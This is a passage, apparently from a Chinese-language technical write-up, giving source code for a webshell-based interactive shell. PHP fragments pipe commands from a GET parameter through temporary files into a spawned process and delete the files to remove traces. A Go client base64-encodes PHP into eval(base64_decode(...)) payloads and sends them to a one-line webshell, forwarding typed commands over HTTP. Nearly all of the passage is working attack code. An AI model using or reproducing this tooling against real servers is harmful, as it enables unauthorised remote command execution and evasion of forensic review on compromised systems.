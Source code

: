 ```php
    }
    fwrite($pipes[0], $c);
}
fclose($pipes[0]);  // 关闭管道输入
proc_close($handle);    // 关闭管道
@unlink($STDIN);    // 删除痕迹
@unlink($STDOUT);
```

write则是把待执行的命令写入.sw_in中

```php
$STDIN = ".sw_in";
$fp = fopen($STDIN, "a");
fwrite($fp, $_GET["c"]);
fclose($fp);
```

read负责输出回显

```php
$STDOUT = ".sw_out";
if (!file_exists($STDOUT)) {
@header("HTTP/1.1 500");
die();
}
$r = @file_get_contents($STDOUT);
@file_put_contents($STDOUT, "");
echo($r);
```

全部这4种指令都是靠一句话小马的http请求完成

```php
func PostData(code string) string {
    return fmt.Sprintf("eval(base64_decode(\"%s\"));", base64.StdEncoding.EncodeToString([]byte(code)))
}
```

初次建立连接后，后续的命令都靠读入终端的输入（发送write），ctrl+D退出（发送stop）

```go
// 监听用户输入，发送
if err := keyboard.Open(); err != nil {
    panic(err)
}

defer keyboard.Close()

var cmdCache string

go func() {
    for {
        // 如果没有输入数据，则延时1秒后再检测
        if len(cmdCache) == 0 {
            time.Sleep(time.Second)
            continue
        }
        httpPost(fmt.Sprintf("%s?c=%s", Url, cmdCache), PostData(PhpCode.write))
        cmdCache = ""
        // 2秒发送一次
        time.Sleep(time.Second * 2)
    }
}()

for {
    char, key, err := keyboard.GetKey()
```